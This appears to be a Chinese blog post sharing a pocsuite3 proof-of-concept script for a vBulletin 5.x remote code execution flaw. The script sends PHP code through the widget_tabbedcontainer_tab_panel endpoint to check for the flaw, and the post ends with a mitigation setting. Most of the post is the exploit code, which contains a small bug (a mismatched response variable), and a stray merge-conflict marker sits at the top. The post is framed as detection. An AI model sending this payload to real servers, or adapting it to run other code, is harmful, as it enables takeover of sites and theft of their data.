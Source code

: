 <<<<<<< HEAD
---
title:vBulletin 5.x RCE 检测脚本
categories: [dev]
comments: true
---

#### 参考链接：利用vBulletin：“补丁失败的故事”
> https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pocsuite3.api import requests
from pocsuite3.api import register_poc
from pocsuite3.api import Output, POCBase, logger
from re import findall
import ssl

ssl._create_default_https_context = ssl._create_unverified_context

class TestPOC(POCBase):
    vulID = ''
    version = '5.x'
    author = ['南方有梦']
    vulDate = ''
    createDate = ''
    updateDate = ''
    references = ['']
    name = 'vBulletin 5.x RCE'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = ''
    desc = '''
    '''

    def _verify(self):
        result = {}
        target = '{u}/ajax/render/widget_tabbedcontainer_tab_panel'.format(u=self.url)
        data = "subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();"
        try:
            response = requests.get(url=target, data=data, verify=False)
            if resp.status_code == 200 and 'PHP API' in resp.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = target
        except Exception as e:
            #print(e)
            logger.error(f"connect target '{self.url} failed!'")
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register_poc(TestPOC)
```
### 漏洞检测脚本 Github地址：

> https://github.com/hackgov/article/blob/master/vBulletin%205.x%20RCE.py
>
> #### 基于POCsuite3框架运行


#### 修复建议
`此修补程序将禁用您论坛中的PHP小部件，并可能破坏某些功能，但在vBulletin发布补丁之前，将使您免受攻击。`

> 转到vBulletin管理员控制面板。
> 单击左侧菜单中的“设置”，然后单击下拉菜单中的“选项”。
> 选择“常规设置”，然后单击“编辑设置”
> 查找“禁用PHP，静态HTML和广告模块呈现”，设置为“是”，点击“保存”